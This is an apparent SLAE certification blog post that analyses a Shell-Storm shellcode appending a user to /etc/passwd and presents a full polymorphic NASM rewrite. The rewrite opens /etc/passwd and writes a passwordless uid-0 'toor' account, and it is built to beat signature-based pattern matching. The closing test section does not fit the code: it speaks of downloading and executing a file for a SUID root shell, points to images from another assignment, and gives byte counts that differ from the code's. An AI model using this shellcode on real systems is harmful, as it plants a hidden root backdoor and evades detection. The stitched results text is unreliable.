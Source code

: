 # Assignment 6: Append Passwd

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Append Passwd shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-561.php](http://shell-storm.org/shellcode/files/shellcode-561.php "").

This shellcode is meant to add a new system user to the `/etc/passwd` file.


### Shellcode Analysis

To begin, lets grab a copy of that shellcode, compile it, and trace it with GDB:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/passwd/gdb1.png "GDB")

As can be appreciated, the shellcode uses the JMP-CALL-POP technique to get the payload address on the stack. The payload in this case is is the following string:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/passwd/gdb2.png "Payload")

which is of course the file name and the user string to be appended. 

The shellcode then goes on to replace the `#` symbols in the payload by `\x00`s, effectively NULL-terminating both strings. Then, a file descriptor for `/etc/passwd` is created with the `open()` system call, and `toor::0:0:t00r:/root:/bin/bash` is appended with the `write()` system call. Finally, the program gracefully exits with the `exit()` system call. 


### Polymorphic Shellcode

To re-create this shellcode, several tweaks were applied to make the shellcode shorter. In no particular order:
- `/etc/passwd` is pushed on the stack, which changes the operations needed before the `open()` call
- `toor::0:0::/root:/bin/sh` is appended, which trims down unnecessary bytes
- payload length is explicitly specified (not calculated at run time)
- additional steps, associated with the original shellcode, are cut and/or rewritten

The final version looks like this:

### a6-passwd.nasm
```nasm
; SLAE Assignment 6: Append Passwd (morphed)
; http://shell-storm.org/shellcode/files/shellcode-561.php
; Original Shellcode Length:	107 
; Morphed Shellcode Length:		82

global _start
section .text
_start:
	jmp short stage

append:
	pop esi
	cdq
	mov byte [esi+24], dl

	push byte 0x5 				; #define __NR_open 5
	pop eax 					; int open(const char *pathname, int flags);
	push edx
	push byte 0x64 				; d
	push word 0x7773			; ws
	push 0x7361702f				; sap/
	push 0x6374652f				; cte/
	mov ebx, esp 				; *pathname -> /etc/passwd
	xor ecx, ecx 		
	inc ecx 					; flags = 1		#define O_WRONLY        00000001
	mov ch, 0x4 				; flags = 401	#define O_NOCTTY        00000400
	int 0x80 					; open

	xchg eax, ebx 				; fd 
	push byte 0x4 				; #define __NR_write 4
	pop eax 					; ssize_t write(int fd, const void *buf, size_t count);
	mov ecx, esi 				; *buf -> toor::0:0::/root:/bin/sh
	push byte 0x19 				; length = 25 bytes
	pop edx 					; count = 25
	int 0x80 					; write

	push byte 0x1 				; #define __NR_exit 1
	pop eax 					; int exit(int status)
	int 0x80 					; exit

stage:
	call append
	usr: db "toor::0:0::/root:/bin/shC"
```


Let us go ahead and check if everything works as it should.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/dlexec/example.png "Example")

It looks like everything works as expected. The file is correctly downloaded, chmod'ed and executed, giving us a SUID root shell.

Now let's go on to check how the morphed version compares to the original shellcode.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/dlexec/length.png "Shellcode length")

Our morphed version is 96 bytes in length, which is of course 12 bytes shorter than the original 108 bytes. 




